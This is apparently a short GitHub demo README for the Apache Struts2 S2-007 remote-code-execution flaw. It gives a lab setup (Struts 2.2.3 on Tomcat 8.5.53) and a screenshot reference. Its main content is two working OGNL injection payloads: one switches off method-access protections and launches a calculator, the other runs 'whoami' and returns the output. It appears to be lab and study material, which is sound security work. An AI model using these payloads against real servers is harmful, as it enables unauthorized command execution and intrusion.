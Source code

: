 # S2-007 Demo

## Environment
Struts2: struts-2.2.3

Tomcat: 8.5.53

IDE: idea 2020.1.1 ULTIMATE

## POC



![{A7084584-483F-4AA5-A99E-B1B26E8A911B}_20200619183031]({A7084584-483F-4AA5-A99E-B1B26E8A911B}_20200619183031.jpg)

## Payload

- open calc.exe

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
  ```

- run command

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
  ```

## Reference

- [S2-007 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-007/README.zh-cn.md)

